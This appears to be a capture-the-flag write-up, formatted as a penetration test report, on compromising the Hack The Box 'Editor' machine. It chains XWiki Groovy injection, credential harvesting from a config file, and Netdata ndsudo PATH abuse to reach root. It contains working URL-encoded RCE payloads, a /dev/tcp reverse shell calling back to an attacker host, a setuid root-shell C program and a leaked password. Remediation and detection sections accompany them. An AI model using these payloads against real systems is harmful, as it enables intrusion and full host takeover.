


# CEH‑Style Report: HTB “Editor” (XWiki 15.10.8 → Privilege Escalation via Netdata)

> Assessor: Hlib Wamm0x0x0
> Date: 2025‑08‑27
> Target: `editor.htb` (`10.129.118.213`)

---

## 1) Executive Summary

* During testing, a chain of issues enabled initial host access (anonymous RCE in XWiki via Groovy injection in a search renderer), credential exposure from configuration files, and privilege escalation to `root` through a vulnerable Netdata component (`ndsudo` SUID + attacker‑controlled `PATH`).
* Risk: **Critical** (full host compromise).
* Recommendations: disable script execution for anonymous users in XWiki, update Netdata / remove `ndsudo` SUID, rotate secrets, enforce strict ACLs.

---

## 2) Scope and Rules of Engagement

* One host in scope: `editor.htb` (10.129.118.213).
* Active network/web testing only. No DoS.

---

## 3) Methodology (CEH Framework)

### 3.1 Reconnaissance / Discovery

**Nmap scan**

```bash
nmap -sV -sC -Pn 10.129.118.213
```

**Key findings:**

* 22/tcp — OpenSSH 8.9p1 (Ubuntu).
* 80/tcp — nginx 1.18.0 (Ubuntu) — “Editor - SimplistCode Pro”.
* 8080/tcp — Jetty 10.0.20 / XWiki 15.10.8 (Debian). `robots.txt` lists many internal paths (`/xwiki/bin/edit/`, `/create/`, `/inline/`, ...). WebDAV methods (PROPFIND/LOCK/UNLOCK) are shown, but **DAV is not enabled** (501).



---

### 3.2 Enumeration

* Identified the XWiki login form (`/xwiki/bin/login/XWiki/XWikiLogin`). Straight Hydra brute‑force is ineffective because the form requires a CSRF token; the `http-get` module produced false positives.
* Verified whether the wiki renderer for `SolrSearch` executes scripts.

Groovy execution test (via `xpage=plain`):

```text
GET /xwiki/bin/view/Main/SolrSearch?xpage=plain&text=%7B%7Bgroovy%7D%7Dprintln%28%22PING%22%29%7B%7B%2Fgroovy%7D%7D
```

Expected output: `PING` (confirms script execution within that render context).



---

### 3.3 Vulnerability Analysis

#### VULN‑1: Anonymous RCE via Groovy Injection in XWiki

* Component: XWiki 15.10.8 (Debian) — `SolrSearch` page.
* Summary: the `text` parameter is processed by the wiki renderer; in certain configurations, `{{groovy}}...{{/groovy}}` execution is permitted for anonymous users (misconfiguration/overly permissive rights), leading to **remote command execution**.
* Delivery: HTTP GET with fully URL‑encoded payload.
* Requirements: 8080/tcp reachable and no “Programming Right” restriction for this renderer.


[Link to CVE-2025-24893](https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py)

Create shell file:

```bash
cat shell.sh 
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.129/4444 0>&1
```

```bash
sudo python3 -m http.server 8000 --bind 10.10.14.129
Serving HTTP on 10.10.14.129 port 8000 (http://10.10.14.129:8000/) ...
10.10.14.129 - - [27/Aug/2025 10:41:25] "GET / HTTP/1.1" 200 -
10.10.14.129 - - [27/Aug/2025 10:41:25] code 404, message File not found
10.10.14.129 - - [27/Aug/2025 10:41:25] "GET /favicon.ico HTTP/1.1" 404 -
10.10.14.129 - - [27/Aug/2025 10:52:36] "GET /shell.sh HTTP/1.1" 200 -
10.129.118.72 - - [27/Aug/2025 11:02:42] "GET /shell.sh HTTP/1.1" 200 -
10.129.118.72 - - [27/Aug/2025 11:02:42] "GET /shell.sh HTTP/1.1" 200 -
```

```text
/xwiki/bin/view/Main/SolrSearch?xpage=plain&text=%7B%7Bgroovy%7D%7D%22bash+-lc+%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.14.129%2F4444+0%3E%261%27%22.execute%28%29%7B%7B%2Fgroovy%7D%7D
```

Listener:

```bash
nc -lvnp 4444 -s 10.10.14.129
```

Fetch & execute via Groovy:

```text
http://editor.htb:8080/xwiki/bin/view/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln(%22bash%20/tmp/shell.sh%22.execute().text)%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D
```

```bash
nc -lnvp 4444 -s 10.10.14.129
listening on [10.10.14.129] 4444 ...
connect to [10.10.14.129] from (UNKNOWN) [10.129.118.72] 48194
bash: cannot set terminal process group (1130): Inappropriate ioctl for device
bash: no job control in this shell
xwiki@editor:/usr/lib/xwiki-jetty$ ls
```

#### VULN‑2: Secrets Exposure in XWiki Configuration

* File: `/usr/lib/xwiki/WEB-INF/hibernate.cfg.xml`.
* Impact: database credentials and other secrets are readable by the `xwiki` user. A human‑readable password `theEd1t0rTeam99` was discovered and re‑used to obtain SSH access for a local user.

Extraction:

```bash
xwiki@editor:~$ cat /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml | grep password
    <property name="hibernate.connection.password">theEd1t0rTeam99</property>
    <property name="hibernate.connection.password">xwiki</property>
    ...
```

#### VULN‑3: Privilege Escalation to root via Netdata `ndsudo` (SUID + PATH)

* Netdata dashboard is bound to `127.0.0.1:19999`.
* Accessed via **local SSH port‑forwarding**:

```bash
ssh -N -L 19999:127.0.0.1:19999 oliver@editor.htb
# then open http://localhost:19999
```

* Known `ndsudo` issue (SUID) allows executing a whitelisted command name while relying on `PATH`, enabling binary replacement and root escalation. Reference: GitHub Advisory **GHSA‑pmhq‑4cxq‑wj93**.

**Exploitation (PoC):**

```c
// exploit.c
#include <unistd.h>
#include <stdlib.h>
int main(){ setuid(0); setgid(0); execl("/bin/bash","bash","-i",NULL); return 0; }
```

```bash
gcc -o nvme exploit.c
scp nvme oliver@editor.htb:/tmp/1111/
ssh oliver@editor.htb
oliver@editor:~$ chmod +x /tmp/1111/nvme
oliver@editor:~$ export PATH=/tmp/1111:$PATH
oliver@editor:~$ /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
root@editor:/tmp/1111# id
uid=0(root) gid=0(root) groups=0(root)
```

---

## 4) Exploitation Chain (Kill Chain)

1. XWiki Groovy injection → anonymous RCE → shell as `xwiki`.
2. Harvested credentials from `hibernate.cfg.xml` → password re‑use for SSH (`oliver`).
3. SSH as `oliver`.
4. Local port‑forwarding to Netdata (`127.0.0.1:19999`).
5. Abuse `ndsudo` with controlled `PATH` → root.

---

## 5) Risks and Business Impact

* **Full host compromise** (RCE → root), potential access to XWiki database and sensitive user content.
* Potential lateral movement to other internal systems.

---

## 6) Remediation Recommendations

1. **XWiki:**

   * Deny `Programming Right` / script execution for anonymous users across all renderers (including `SolrSearch`).
   * Enforce macro permissions and sanitization; consider CSP.
   * Upgrade to the latest supported LTS and review 15.10.x CVEs.
2. **Secrets / Configs:**

   * Move credentials out of `hibernate.cfg.xml` into a secure secret store; restrict file permissions.
   * Immediately rotate leaked passwords; prevent secret re‑use for SSH.
3. **Netdata:**

   * Update Netdata; remove or de‑SUID `ndsudo`; restrict who can run it.
   * Restrict dashboard access (TLS, auth, bind to mgmt interface, VPN‑only ACLs).
4. **General:**

   * Enable rate‑limits and WAF/Fail2Ban on login forms.
   * Monitor for RCE patterns; routinely audit SUID binaries and ACLs.

---

## 7) Appendices (Artifacts)

* **Commands & Outputs:**

  * Full Nmap listing
  * Python `http.server` logs (target IP evidence)
  * URL payloads (fully URL‑encoded)
  * `hibernate.cfg.xml` snippet
  * `ssh -L` and Netdata access
  * Compiled PoC (`nvme`) and `id` output

---

## 8) IoCs / SOC Hints

* Requests to `/xwiki/bin/view/Main/SolrSearch?xpage=plain&text=...{{groovy}}...`.
* Outbound connections from the host to `10.10.14.129:8000`.
* Unexpected executions of `plugins.d/ndsudo` and suspicious `PATH` changes.

---

## 9) Conclusion

A misconfigured XWiki renderer (allowing script execution for anonymous users), coupled with exposed secrets in configuration and a vulnerable Netdata `ndsudo` path‑search behavior, led to full host compromise. Immediate remediation is advised.

**For more info follow demo version of report**
